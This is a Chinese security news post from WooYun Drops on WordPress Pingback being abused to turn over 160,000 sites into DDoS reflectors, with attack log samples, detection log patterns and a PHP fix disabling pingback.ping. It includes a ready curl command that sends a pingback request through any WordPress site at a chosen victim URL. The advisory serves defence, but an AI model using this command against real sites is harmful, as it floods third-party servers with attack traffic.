

# 超过 16W 的 WordPress 网站被用来做 DDoS 攻击

2014/03/13 10:21 | [News](http://drops.wooyun.org/author/news "由 News 发布") | [业界资讯](http://drops.wooyun.org/category/news "查看 业界资讯 中的全部文章") | 占个座先 | 捐赠作者



任何开启了 Pingback（默认就开启）的 WordPress 的站点可以被用来做 DDOS 攻击其它服务器。

看如下日志：

```
74.86.132.186 - - [09/Mar/2014:11:05:27 -0400] "GET /?4137049=6431829 HTTP/1.0" 403 0 "-" "WordPress/3.8; http://www.mtbgearreview.com"
121.127.254.2 - - [09/Mar/2014:11:05:27 -0400] "GET /?4758117=5073922 HTTP/1.0" 403 0 "-" "WordPress/3.4.2; http://www.kschunvmo.com" 
217.160.253.21 - - [09/Mar/2014:11:05:27 -0400] "GET /?7190851=6824134 HTTP/1.0" 403 0 "-" "WordPress/3.8.1; http://www.intoxzone.fr" 
193.197.34.216 - - [09/Mar/2014:11:05:27 -0400] "GET /?3162504=9747583 HTTP/1.0" 403 0 "-" "WordPress/2.9.2; http://www.verwaltungmodern.de" 
..

```

可以发现每次请求还增加了随机数`/?3162504=9747583`以此来绕过缓存。

测试这种攻击方式只需要一个 curl 命令就可以了：

```
$ curl -D -  "www.anywordpresssite.com/xmlrpc.php" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://victim.com</string></value></param><param><value><string>www.anywordpresssite.com/postchosen</string></value></param></params></methodCall>'

```

想要看你自己的网站是否被用来做了攻击可以查看日志当中是否包含类似如下的内容：

```
93.174.93.72 - - [09/Mar/2014:20:11:34 -0400] "POST /xmlrpc.php HTTP/1.0" 403 4034 "-" "-" "POSTREQUEST:<?xml version=\x221.0\x22 encoding=\x22iso-8859-1\x22?>\x0A<methodCall>\x0A<methodName>pingback.ping</methodName>\x0A<params>\x0A <param>\x0A  <value>\x0A   <string>http://fastbet99.com/?1698491=8940641</string>\x0A  </value>\x0A </param>\x0A <param>\x0A  <value>\x0A   <string>yoursite.com</string>\x0A  </value>\x0A </param>\x0A</params>\x0A</methodCall>\x0A"

94.102.63.238 – - [09/Mar/2014:23:21:01 -0400] "POST /xmlrpc.php HTTP/1.0" 403 4034 "-" "-" "POSTREQUEST:\x0A\x0Apingback.ping\x0A\x0A \x0A \x0A http://www.guttercleanerlondon.co.uk/?7964015=3863899\x0A \x0A \x0A \x0A \x0A yoursite.com\x0A \x0A \x0A\x0A\x0A"

```

防御此问题的推荐方法需要屏蔽 XML-RPC (pingback) 的功能，WordPress 主题中添加如下代码：

```
add_filter( 'xmlrpc_methods', function( $methods ) {
   unset( $methods['pingback.ping'] );
   return $methods;
} );

```

版权声明：未经授权禁止转载 [News](http://drops.wooyun.org/author/news "由 News 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [编写基于 PHP 扩展库的后门](http://drops.wooyun.org/tips/3003)
*   [NSA 暗中监视中国政府和企业网络（目标华为）](http://drops.wooyun.org/news/1289)
*   [网络安全威胁周报——第 201410 期](http://drops.wooyun.org/news/1034)
*   [APPLE IOS 7.1 修复了超过 20 个代码执行的漏洞](http://drops.wooyun.org/news/1057)
*   [通过伪造乌克兰相关文件进行传播的恶意软件 MiniDuke](http://drops.wooyun.org/news/1373)
*   [GOOGLE 赶在 PWN2OWN 之前修复了四个高危漏洞](http://drops.wooyun.org/news/1069)